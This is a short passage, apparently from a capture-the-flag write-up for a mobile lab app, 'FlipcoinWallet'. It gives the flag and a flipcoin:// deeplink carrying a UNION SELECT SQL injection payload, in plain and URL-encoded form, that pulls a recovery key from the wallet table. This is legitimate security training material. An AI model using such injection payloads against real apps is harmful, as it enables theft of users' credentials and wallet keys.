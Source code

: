 **Flag:** FLAG{fl1p_d4_c01nz}

<br /><br />

![](/assets/img/mhl/FlipcoinWallet/11.jpg)

<br /><br />

**To retrieve the recovery key, open the following deeplink:**

```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001 UNION SELECT 'aaa', recovery_key, 'ccc', 'ddd', 'eee' FROM wallet LIMIT 1,2;-- -

flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'aaa',%20recovery_key,%20'ccc',%20'ddd',%20'eee'%20FROM%20wallet%20LIMIT%201,2;--%20-
```

This payload uses a `UNION SELECT` statement with a `LIMIT` clause to extract the recovery key from the `wallet` table and display it in the app.

Recovery Key: BATTLE TOADS WRITING POEMS

<br /><br />
